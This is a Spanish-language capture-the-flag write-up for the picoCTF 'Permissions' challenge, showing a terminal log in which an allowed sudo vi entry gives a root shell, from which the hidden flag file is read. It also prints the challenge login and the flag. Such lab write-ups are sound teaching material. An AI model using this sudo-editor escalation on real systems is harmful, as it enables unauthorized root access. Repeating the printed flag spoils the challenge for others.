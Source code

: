 
## Descripción

*Can you read files in the root file?The system admin has provisioned an account for you on the main server:`ssh -p  51184 picoplayer@saturn.picoctf.net`Password: `NBD+zO8s4y`Can you login and read the root file?*

## Pistas

*What permissions do you have?*

## Solución

*WebShell y Python3 *

```

ceciSolis-picoctf@webshell:~$ ssh -p 51184 picoplayer@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:51184 ([13.59.203.175]:51184)' can't be established.
ED25519 key fingerprint is SHA256:HKm/Bw1C+mhj23vO8tXULrgLFYvzP6gQH2IwgUiQTok.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:7: [hashed name]
    ~/.ssh/known_hosts:9: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:51184' (ED25519) to the list of known hosts.
picoplayer@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

picoplayer@challenge:~$ whoami
picoplayer
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:~$ sudo vi test

[No write since last change]
root@challenge:/home/picoplayer# whoami
root
root@challenge:/home/picoplayer# cd /root/
root@challenge:~# ls -la
total 12
drwx------ 1 root root   23 Aug  4  2023 .
drwxr-xr-x 1 root root   51 Feb 20 20:17 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4  2023 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
root@challenge:~# cat .flag.txt
picoCTF{uS1ng_v1m_3dit0r_1cee9dcb}

```
picoCTF{uS1ng_v1m_3dit0r_1cee9dcb}


## Notas Adicionales 

*Se necesitaba entrar a la raiz, que era root, pero nos ayudamos con un script hecho en vi*

*El whoami nos indica que usuario esta ejecutando los scripts, primero era pcioplayer,pero despues era root que era el usuario que tiene todos los permisos y puede ver los archivos ocultos, que fue donde estaba la bandera*

## Referencias 

https://medium.com/@petemuiruri/permissions-writeup-picoctf-2023-be95c95f80a5

https://webshell.picoctf.org/

